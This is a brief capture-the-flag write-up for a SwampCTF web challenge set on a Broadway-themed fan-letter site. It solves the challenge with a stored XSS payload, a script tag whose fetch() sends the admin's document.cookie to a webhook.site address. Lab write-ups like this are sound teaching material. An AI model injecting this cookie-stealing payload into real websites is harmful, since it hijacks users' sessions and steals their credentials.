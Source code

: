 * Description 
Welcome to the glitzy world of Broadway! the hit revival of 'Sunset Boulevard' starring Nicole Scherzinger has taken
the theater world by storm. As part of the fan engagement team, you're discovered a website where fans can send letters
to the star. However, rumors suggest that a *hidden admin dashboard* contains something valuable-possibly the CTF flag.

http://chals.swampctf.com:41218

* Solution

When open the site, we can see a =form= to send a letter, and description hint us that admin will =review= the letter.
So maybe there's XSS injection to exploit.

#+begin_src javascript
<script>
fetch("https://webhook.site/2b96145b-5a94-4c8c-a2b5-ef09464a175d?c=" + document.cookie);
</script>
#+end_src

after send it to admin, we can get flag in cookie in [[https://webhook.site][webhook-site]]
